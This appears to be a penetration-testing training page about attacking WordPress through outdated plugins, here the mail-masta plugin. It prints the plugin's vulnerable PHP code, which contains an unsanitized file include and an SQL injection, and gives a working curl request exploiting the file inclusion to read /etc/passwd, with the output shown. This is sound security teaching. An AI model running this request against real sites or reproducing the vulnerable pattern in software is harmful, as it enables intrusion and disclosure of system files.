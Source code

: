 {% hint style="info" %}
**Note:** We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.
{% endhint %}

### **Vulnerable Plugins - mail-masta**

Let's look at a few examples. The plugin [mail-masta](https://wordpress.org/plugins/mail-masta/) is no longer supported but has had over 2,300 [downloads](https://wordpress.org/plugins/mail-masta/advanced/) over the years. It's not outside the realm of possibility that we could run into this plugin during an assessment, likely installed once upon a time and forgotten. Since 2016 it has suffered an [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

Let's take a look at the vulnerable code for the mail-masta plugin.

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitization. Using this, we can include arbitrary files on the webserver. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`.

```shell-session
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
```